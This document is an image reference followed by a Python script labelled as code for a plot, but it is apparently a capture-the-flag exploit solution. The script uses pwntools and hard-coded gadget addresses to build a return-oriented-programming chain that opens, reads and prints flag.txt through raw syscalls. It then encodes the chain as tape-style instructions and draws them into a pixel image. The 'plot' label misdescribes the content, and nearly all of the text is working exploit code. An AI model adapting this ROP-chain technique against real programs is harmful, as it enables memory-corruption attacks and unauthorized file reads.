

Python code for this plot:
from pwn import *
from PIL import Image

pop_rax_ret = 0x45cd07 # pop rax; ret;
pop_rdi_ret = 0x4018da # pop rdi; ret;
pop_rsi_ret = 0x402a38 # pop rsi; ret;
pop_rdx_ret = 0x4017df # pop rdx; ret;
syscall_ret = 0x426194 # syscall; ret;
bss_addr    = 0x4e4b20
exit_addr   = 0x411210

buf0  = "z"+"0"*8*22+"flag.txt0"

buf1  = ">"*120+","+"+"*(0xda-0x7a)
buf1 += ">"+"-"*8
buf1 += ">"*7+"+"*(0x128-0xb8)
buf1 += ">"
buf1 += ">"*6

buf2  = p64(pop_rax_ret)
buf2 += p64(2)
buf2 += p64(pop_rsi_ret)
buf2 += p64(0)
buf2 += p64(pop_rdx_ret)
buf2 += p64(0)
buf2 += p64(syscall_ret)
buf2 += p64(pop_rax_ret)
buf2 += p64(0)
buf2 += p64(pop_rdi_ret)
buf2 += p64(3)
buf2 += p64(pop_rsi_ret)
buf2 += p64(bss_addr)
buf2 += p64(pop_rdx_ret)
buf2 += p64(0x100)
buf2 += p64(syscall_ret)
buf2 += p64(pop_rax_ret)
buf2 += p64(1)
buf2 += p64(pop_rdi_ret)
buf2 += p64(1)
buf2 += p64(syscall_ret)
buf2 += p64(exit_addr)
buf3 = ""
for i in range(len(buf2)):
  if int(buf2[i]) == 0x30:
    buf3 += ">,"
  if int(buf2[i]) > 0x30:
    buf3 += ">," + "+"*(int(buf2[i]) - 0x30)
  else:
    buf3 += ">," + "-"*(0x30 - int(buf2[i]))
buf3 += ">,"*9+"-"*0x30

buf4 = buf1+buf3

print(buf0)
print(buf4)

print(len(buf4))

im = Image.new('RGB', (98,98))
rgb_im = im.convert('RGB')
i = 0
for y in range(98):
  for x in range(98):
    if buf4[i] == ">":
      r = 255
      g = 0
      b = 0 
    if buf4[i] == ".":
      r = 0
      g = 255
      b = 0
    if buf4[i] == "<":
      r = 0
      g = 0
      b = 255
    if buf4[i] == "+":
      r = 255
      g = 255
      b = 0
    if buf4[i] == "-":
      r = 0
      g = 255
      b = 255
    if buf4[i] == "[":
      r = 255
      g = 0
      b = 188
    if buf4[i] == "]":
      r = 255
      g = 128
      b = 0
    if buf4[i] == ",":
      r = 102
      g = 0
      b = 204       
    im.putpixel((x,y),(r,g,b))
    i += 1
    if i >= len(buf4)-1:
      break    
im.save('solve.png')
    
